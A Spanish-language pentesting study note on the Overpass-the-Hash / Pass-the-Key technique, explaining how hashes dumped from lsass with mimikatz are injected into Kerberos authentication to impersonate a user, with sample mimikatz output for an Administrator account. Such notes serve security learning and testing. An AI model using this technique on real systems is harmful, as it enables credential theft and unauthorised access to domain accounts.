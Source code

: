 ```yaml
---
icon: keycdn
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Over Pass-The-Hash - Pass-The-Key

Lo que se va a realizar en esta tecnica es que cuando se realiza una autenticacion de `kerberos` este consulta en la `clave privada` cifrada con un `hash` del usuario que esta escrita en memoria ya para poder darle el `Ticket` de servicio, pues esta tecnica consiste en sobreescribir esta parte de la memoria por el `hash` que nosotros queramos poner ahi, para posteriormente poder obtener ese `ticket` y podernos hacer pasar por dicho usuario del `hash` que hayamos insertado en dicha memoria.

Vamos a utilizar `mimikatz` en este caso, como hemos visto antes podremos obtener el `hash` del usuario en las `logon sessions` del proceso `lsass` volcandolo con `mimikatz`.

Y despues realizabamos la tecnica de `pth` con el `mimikatz` para obtener una shell como el usuario `administrador` en `cmd`, en la informacion que nos daba, que era algo asi:

```
user    : Administrator
domain  : corp.local
program : cmd.exe
impers. : no
NTLM    : a87f3a337d73085c45f9416be5787d86
  |  PID  3448
  |  TID  3228
  |  LSA Process is now R/W
  |  LUID 0 ; 7674536 (00000000:00751aa8)
  \_ msv1_0   - data copy @ 00000224E7C04E80 : OK !
  \_ kerberos - data copy @ 00000224E7D777C8
   \_ des_cbc_md4       -> null
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ *Password replace @ 00000224E7679D38 (32) -> null
```
